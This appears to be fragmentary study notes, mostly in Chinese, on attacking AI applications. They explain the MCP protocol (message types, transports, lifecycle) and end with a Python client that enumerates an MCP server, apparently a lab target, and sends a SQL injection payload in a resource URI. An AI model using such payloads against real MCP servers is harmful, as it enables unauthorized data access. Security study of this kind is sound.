


# 1_Attacking_AI_Application_and_System

# 1 Attacking the Application

## 1.1 Model Reverse Engineering


# 2 MCP



## 2.1 MCP 通信

MCP 中传输的消息遵循[JSON-RPC](https://www.jsonrpc.org/specification)格式。该协议定义了三种不同类型的消息：

- `Request`：请求消息用于启动一项操作。它包含成员`id`，即唯一的请求 ID；以及`method`，用于指定要启动的操作类型。它还可能包含成员`params`，该成员由相应的参数组成。
- `Response`：响应消息源自先前的请求。它包含`id`与相应请求相同的成员。此外，它还包含一个`result`成员或一个`error`成员，具体取决于相应操作的结果。
- `Notification`：通知消息是单向消息，即没有响应。它不包含成员，`id`只包含`method`成员，必要时还包含`params`成员。

MCP 定义了两种不同的传输机制来在客户端和服务器之间传输消息：

1. `stdio`：此传输机制使用操作系统提供的客户端和服务器进程的标准输入和标准输出。仅当客户端和服务器在同一本地系统上运行时才能使用。
2. `Streamable HTTP`：MCP 服务器启动一个 HTTP 服务器。客户端通过 HTTP GET 和 POST 请求与服务器通信，而服务器也可以使用 HTTP GET 和 POST 请求`Server-Sent Events (SSE)`与客户端通信。[服务器发送事件](https://html.spec.whatwg.org/multipage/server-sent-events.html)使服务器无需客户端先前的请求即可将数据推送到客户端。这使得 MCP 服务器能够向客户端发送请求消息，而无需等待客户端向 MCP 服务器发出 HTTP 请求（`polling`）。

## 2.2 MCP 协议流程

为了总结 MCP 的理论介绍，让我们来探索一下 MCP 客户端和 MCP 服务器通信时的典型协议流程。MCP 生命周期包含三个阶段：

- `Initialization`阶段
- `Operation`阶段
- `Shutdown`阶段



### 2.2.1 初始化

MCP 客户端连接到 MCP 服务器后，第一个消息是`initialization`。它由三条消息组成。客户端连接后的第一条消息是`initialization request`。它至少包含以下信息：

- `method`成员设置为`initialize`

- params

  成员包含以下信息：

  - `protocolVersion`密钥中客户端支持的最新 MCP 协议版本
  - `capabilities`客户端在密钥中支持的功能
  - 常规客户端信息，例如`clientInfo`密钥中的客户端名称和客户端版本

服务器对初始化请求进行响应，`initialization response`响应的`result`成员至少包含以下信息：

- `protocolVersion`密钥中服务器支持的最新 MCP 协议版本
- `capabilities`密钥中服务器支持的功能
- `serverInfo`密钥中的常规服务器信息，例如服务器名称和服务器版本

为了完成初始化阶段，客户端会发送一条`initialized notification`通知消息。该消息不包含任何信息`method`，除了设置为的成员`notifications/initialized`。

通过初始化请求和响应中交换的信息，MCP 客户端和服务器可以就 MCP 协议版本达成一致。如果由于不兼容而无法达成一致，客户端将直接断开连接。此外，客户端和服务器还交换了有关所支持功能的信息，这些信息随后可以在该`operation`阶段进行交互。

### 2.2.2 operation

此`operation`阶段是 MCP 的核心部分，客户端和服务器在此阶段交换消息。此阶段通常包含基于初始化期间交换的信息的请求和响应。例如，根据服务器的功能，客户端可以通过发送包含以下`method`成员的请求消息来与提示、资源和工具进行交互：

- `prompts/list`：检索可用提示的列表。
- `prompts/get`：检索特定提示。目标提示和可能的其他参数在成员中提供`params`。
- `resources/list`：检索可用资源列表。
- `resources/templates/list`：检索可用资源模板的列表。
- `resources/read`：检索资源内容。成员中提供了 URI 以及（如果是资源模板的话）附加参数`params`。
- `tools/list`：检索可用工具的列表。
- `tools/call`：调用特定工具。目标工具和可能的其他参数在成员中提供`params`。

##### 2.2.3 关闭

关闭可以由客户端或服务器发起。在 MCP 级别，没有定义具体的关闭消息。实际上，MCP 会话是通过终止底层传输连接来终止的。更具体地说，如果`stdio`使用传输机制，则关闭输入或输出流。如果使用传输机制，则关闭 HTTP 连接`Streamable HTTP` 。关闭传输机制后，MCP 会话终止。

## 2.3 MCP client to server

```python
import asyncio
from fastmcp import Client, FastMCP

client = Client("http://94.237.62.138:49199/mcp/")

async def main():
    async with client:
        resources = await client.list_resources()
        resource_templates = await client.list_resource_templates()
        tools = await client.list_tools()
        
        print("Resources:")
        for resource in resources:
            print('***')
            print(resource.name)
            print(resource.description.strip())
        
        try:
            result_object = await client.read_resource("price://x'%20UNION%20SELECT%201--")
            print(result_object[0].text)
        except Exception as e:
            print(f"[-] {e}")
        
        try:
            result = await client.read_resource("resource://logs")
            print("[+] Logs retrieved successfully!\n")
            
            if isinstance(result, list):
                for entry in result:
                    if hasattr(entry, 'text'):
                        print(entry.text)
                    else:
                        print(entry)
            else:
                print(result)
                
        except Exception as e:
            print(f"[-] Error: {e}")
           
        
        print("-"*50)
        print("Resource Templates:")
        for resource_template in resource_templates:
            print('***')
            print(resource_template.uriTemplate)
            print(resource_template.description.strip())
        
        print("-"*50)
        print("Tools:")
        for tool in tools:
            print('***')
            params = list(tool.inputSchema.get('properties').keys())
            print(f"{tool.name}({','.join(params)})")
            print(tool.description.strip())

asyncio.run(main())
```

